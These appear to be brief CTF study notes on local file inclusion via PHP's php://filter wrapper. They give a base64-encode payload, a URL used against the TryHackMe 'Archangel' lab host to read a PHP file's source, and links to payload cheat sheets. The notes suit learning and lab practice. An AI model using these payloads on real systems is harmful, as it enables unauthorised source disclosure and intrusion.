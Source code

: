 
https://gupta-bless.medium.com/exploiting-local-file-inclusion-lfi-using-php-wrapper-89904478b225

This one is for member only

Shifted to this

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#wrapper-phpfilter


`_page=php://filter/convert.base64-encode/resource=index_
`
This payload forces PHP to base64 encode the file before it is used or rendered in the response. Now we replace page parameter value with above-mentioned payload and check output.


For [[Archangel]] below command was used

```
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```


another usefull resource is 

https://highon.coffee/blog/lfi-cheat-sheet/

